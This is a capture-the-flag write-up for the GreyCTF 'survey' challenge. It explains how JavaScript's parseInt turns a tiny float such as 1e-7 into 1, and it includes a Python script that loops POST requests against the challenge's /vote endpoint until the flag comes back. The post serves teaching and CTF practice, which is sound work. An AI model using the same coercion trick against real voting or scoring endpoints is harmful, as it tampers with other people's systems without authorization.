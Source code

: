 ```yaml
---
title: Greyctf Survey Writeup
date: 2024-04-25
categories:
  - Writeups
tags:
  - Grey cat the flag
---
```


# Intro

- Recently I have participated in Grey Cat The Flag as a member in F1ag dot txt, and I counter some questions which are quite interesting. One of them is greyctf survey

# 0x01

### Source code:

index.js
```javascript
app.post('/vote', async (req, res) => {
    const {vote} = req.body;
    if(typeof vote != 'number') {
        return res.status(400).json({
            "error": true,
            "msg":"Vote must be a number"
        });
    }
    if(vote < 1 && vote > -1) {
        score += parseInt(vote);
        if(score > 1) {
            score = -0.42069;
            return res.status(200).json({
                "error": false,
                "msg": config.flag,
            });
        }
        return res.status(200).json({
            "error": false,
            "data": score,
            "msg": "Vote submitted successfully"
        });
    } else {
        return res.status(400).json({
            "error": true,
            "msg":"Invalid vote"
        });
    }
})

```

From the source code, we can see that we are able to send data by using post method to the endpoint '/vote'. And the data will be in json format:  {'votes': value}

The value need to be send will have to be in between 1 and -1, and it will be parsed into an integer and will be added to the 'score' variable, and once the value of score exceeds 1. It will return with flag

# 0x02

As such, we can use try to use burp to intercept the packet first and post a random data that is between 1 and -1 . But it turns out that the value it returns us is the exact same.

## parseInt() function

In Javascript, the parseInt() function parses a string argument and returns an integer of the specified radix (the base in mathematical numeral systems)(https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt)

It has two parameter(here we only require to use one): String and radix(we do not need use this one at this circumstance)

Tips: 
1. If the string start with a "0x", Javascript will interpret it as a hexadecimal number
2. If the typeof value is not a string, Javascript will implicitly call the `toString()` to convert it into a string by default.

The parseInt() will starts parsing from the beginning of the string until it encounters a non-numeric character or reaches the end of the string with whitespace ignoring . If the first non-whitespace character is not numeric character, plus or negative. It will return a value of NaN.

For instance:

```javascript:
console.log(parseInt('123abc'))//123
console.log(parseInt(' 1'))//1
console.log(parseInt('a'))//NaN
```

Similarly, if the value is a decimal(float), it will return the number before decimal point, as '.' is considered as non-numeric

```javascript
console.log(parseInt(0.05))//0
```

It will return a value of 0, and that explains why the score remain exact same why we post a value(-1 < value < 1), as it will be parsed to 0.

# 0x03

## Standard form

However, in javascript, when a number has more than 6 decimal places, it will automatically transformed into standard form.

For instance:

```javascript
console.log(0.0000001)//1e-7
```


Therefore, back to the parseInt() function again, once we post a value that exceeds 6 decimals places, parseInt() lt will only parse the part of the string before the "e" character:

For instance:

```javascript
0.0000001 -> 1e-7
```

The first number that parseInt() will parse will be 1 and end before the "e" character

As such, we can use this and post a data that is more than 6 decimal places.

![](/assets/img/grey the cat flag/flag.png)

By doing it, we can find the value changing, and by doing it twice, we are able to make the score more than 1.

As it exceeds 1, it returns us with the flag.

# 0x04
## Python

```python
exp.py

#!/usr/bin/python3
import requests
import json

def solve():
    try:
        # url
        url = 'http://challs.nusgreyhats.org:33334/vote'
        # header
        header = {
            "Content-Type": "application/json; charset=utf-8"
        }
        # payload
        payload = '''
        {"vote":0.0000000000000000001}    
        '''
        reponse = requests.post(url, data=payload,headers=header)
        # if the score still do not exceeds 1
        # flag format: "grey{...}"
        while "grey{" not in reponse.text:
            reponse = requests.post(url, data=payload,headers=header)
        # flag 
        flag = json.loads(reponse.text)['msg']
        print(flag)
    except Exception as e:
        print(e)

if __name__ == "__main__":
    solve()

```


Reference: 
https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/parseInt
http://t.csdnimg.cn/EU6uo
http://t.csdnimg.cn/yGCjd
